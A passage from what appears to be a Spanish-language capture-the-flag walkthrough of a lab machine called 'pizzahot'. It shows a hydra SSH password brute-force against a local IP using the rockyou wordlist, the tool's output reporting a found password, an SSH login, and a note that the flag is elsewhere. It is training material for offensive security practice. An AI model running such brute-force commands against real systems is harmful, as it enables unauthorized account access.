 Vamos a comprobar si este usuario existe, al aplicarle fuerza bruta con la herramienta **hydra**:
```bash
hydra -l 'pizzapiña' -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.170 -t 48
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-13 17:06:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 48 tasks per 1 server, overall 48 tasks, 14344399 login tries (l:1/p:14344399), ~298842 tries per task
[DATA] attacking ssh://192.168.1.170:22/
[22][ssh] host: 192.168.1.170   login: pizzapiña   password: ******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 17 final worker threads did not complete until end.
[ERROR] 17 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-13 17:06:57
```
Excelente, si existe y pudimos obtener su contraseña.

Vamos a conectarnos al **servicio SSH**:
```bash
ssh pizzapiña@192.168.1.170
pizzapiña@192.168.1.170's password: 
Linux pizzahot 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64
...
...
...
Last login: Tue May 28 19:44:53 2024
pizzapiña@pizzahot:~$ whoami
pizzapiña
```
Estamos dentro.

Pero al tratar de obtener la flag, tenemos un mensaje:
```bash
pizzapiña@pizzahot:~$ cat user.txt 
sigue buscando
```
Parece que la flag se encuentra en otro lado.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="enumLin">Enumeración de la Máquina Víctima</h2>
